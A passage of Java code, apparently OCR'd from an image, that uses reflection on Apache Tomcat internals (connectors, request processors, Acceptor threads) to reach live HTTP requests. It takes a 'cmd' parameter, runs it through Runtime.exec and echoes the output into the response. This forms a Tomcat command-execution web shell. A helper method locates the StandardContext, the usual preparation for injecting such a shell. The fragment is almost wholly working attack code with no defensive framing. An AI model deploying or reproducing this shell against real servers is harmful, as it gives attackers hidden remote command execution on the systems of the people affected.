                 ProtocolHandler protocolHandler = connectors1[0].getProtocolHandler();  
                Field handler = org.apache.coyote.AbstractProtocol.class.getDeclaredField("handler");  
                handler.setAccessible(true);  
                org.apache.tomcat.util.net.AbstractEndpoint.Handler handler1 = (AbstractEndpoint.Handler) handler.get(protocolHandler);  
      
                org.apache.coyote.RequestGroupInfo requestGroupInfo = (org.apache.coyote.RequestGroupInfo) handler1.getGlobal();  
                Field processors = requestGroupInfo.getClass().getDeclaredField("processors");  
                processors.setAccessible(true);  
                ArrayList<RequestInfo> processors1 = (ArrayList) processors.get(requestGroupInfo);  
      
                Field req = RequestInfo.class.getDeclaredField("req");  
                req.setAccessible(true);  
                for (org.apache.coyote.RequestInfo requestInfo : processors1) {  
                    org.apache.coyote.Request request1 = (org.apache.coyote.Request) req.get(requestInfo);  
                    // 转换为 org.apache.catalina.connector.Request 类型  
                    org.apache.catalina.connector.Request request2 = (org.apache.catalina.connector.Request) request1.getNote(1);  
                    org.apache.catalina.connector.Response response1 = request2.getResponse();  
      
                   String cmd = request2.getParameter("cmd");  
                    Process exec = Runtime.getRuntime().exec(cmd);  
                    InputStream inputStream = exec.getInputStream();  
                    int len;  
                    while ((len = inputStream.read())!=-1){  
                        response1.getWriter().write(len);  
                    }  
      
                }  
      
            } catch (NoSuchFieldException | IllegalAccessException | IOException e) {  
                e.printStackTrace();  
            } catch (Exception e) {  
                throw new RuntimeException(e);  
            }  
        }  
      
        public StandardContext getStandardContext(String uri,String serverName) throws Exception {  
            Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");  
            for (Thread thread : threads) {  
                if (thread == null) {  
                    continue;  
                }  
                if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {  
                    Object target = this.getField(thread, "target");  
                    HashMap children;  
                    Object endPoint = null;  
                    try {  
                        endPoint = getField(thread, "this$0");  
      
                    } catch (Exception e) {  
      
                    }  
                    if (endPoint == null) {  
                        try {  
                            endPoint = this.getField(target, "endpoint");  
                        } catch (Exception e) {  
                            return null;  
                        }  
                    }  
                    Object service = getField(getField(getField(getField(getField(endPoint, "handler"), "proto"), "adapter"), "connector"), "service");  
                    StandardEngine engine = null;  
                    try {  
                        engine = (StandardEngine) getField(service, "container");  
                    } catch (Exception e) {  